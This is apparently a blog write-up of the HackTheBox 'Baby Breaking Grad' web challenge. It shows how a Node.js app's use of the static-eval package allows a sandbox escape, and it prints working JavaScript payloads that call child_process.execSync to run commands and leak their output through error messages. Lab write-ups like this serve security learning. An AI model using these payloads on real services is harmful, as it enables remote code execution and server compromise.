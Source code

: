 ```yaml
---
title: HackTheBox - Baby Breaking Grad Web Challenge
date: 2024-11-07 14:30:45 +0100
categories: [HackTheBox, Web]
tags: [challenge, web,command injection]
---
```

### Challenge Description
We corrected the math in our physics teacher's paper, and now he is failing us out of spite for embarrassing him at the university's research symposium. Now, we can't graduate unless we can do something about it...

### Walkthrough

![img-description](assets/img/screenshots/Pasted image 20241106235150.png)

Upon visiting the website, we are greeted with this page. Clicking the "Did I pass?" button results in "No" message for both students. Let’s open Burp Suite and see what’s going on more closely.

![img-description](assets/img/screenshots/Pasted image 20241106235506.png) 

We can see that the student's name is sent to the server, and the server responds with "Nope." Our request is sent to the `/api/calculate` endpoint, suggesting that some calculations are happening in the backend to check if we passed. So let's inspect the source code.

### Code analysis

![img-description](assets/img/screenshots/Pasted image 20241107000231.png)

While inspecting `index.js`, we notice a few things:

1. At line 20, the formula can have different values.
2. At line 22, there is a blacklist of students.

Let's investigate the `StudentHelper.js` file, to see exactly what's going on.

![img-description](assets/img/screenshots/Pasted image 20241107000859.png)

From this code, we observe that:

1. The `static-eval` package is used.
2. Students "Baker" and "Purvirs" are blacklisted.
3. If a student is not blacklisted, it uses `evaluate` to parse the formula.

Before exploring a code injection vulnerability in `static-eval`, let’s test our understanding of the code by trying to get a passing grade. We know it expects the following parameters `exam`, `paper`, and `assignment`.

### Testing the functions

![img-description](assets/img/screenshots/Pasted image 20241107003215.png)

We start with these really bad grades, and as expected, we fail.

![img-description](assets/img/screenshots/Pasted image 20241107003547.png)

After modifying the formula to add ten points to the exam grade, we pass!

Now that we understand the calculation process, let's delve deeper into `static-eval` to find a command injection vulnerability that we could exploit when the server parses our formula.

### Getting remote command execution

![img-description](assets/img/screenshots/Pasted image 20241107003826.png)

While examining its [repository](https://github.com/browserify/static-eval/blob/master/test/eval.js), I noticed this interesting line of code. If we can execute the right function, we might achieve code execution.

After further research, I found this [post](https://licenciaparahackear.github.io/posts/static-eval-sandbox-escape-original-writeup/), which shows how to achieve our goal with the following code:
```javascript
(function({x}){return x.constructor})({x:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
```

We will merge this payload with previous code from the repo to create a new payload. Using the `sleep` command to check if our injection was successful:
```javascript
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"sleep 5\").toString())')()
```

> **Note:** Replace double quotes with single quotes, as shown above. 
{: .prompt-warning }

![img-description](assets/img/screenshots/Pasted image 20241107005813.png)

We send our request, and we observe a five-second delay, confirming our code was executed successfully. Now, we need to retrieve the output of our code.

After more research, I found that we could extract the output through error messages using `throw new Error()`.

> In JavaScript, `throw new Error()` is a way to create and throw an error. `throw` keyword is used to throw or raise an exception. It can then be followed by any JavaScript expression, in our case we are creating a new instance of the `Error` class, a built-in JavaScript object for handling errors.
{: .prompt-tip }

By replacing `console.log` with `throw new Error()`, it should work as intended.

```javascript
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\"ls\").toString())')()
```

Next, we'll run the `ls` command to locate our flag.

### Getting the flag

![img-description](assets/img/screenshots/Pasted image 20241107010918.png)

And here we go! We see a file named `flagFOJ94`. Now, we just replace the `ls` command with `cat flagFOJ94` to read its contents.

![img-description](assets/img/screenshots/Pasted image 20241107011406.png)

Thank you for reading 📖 
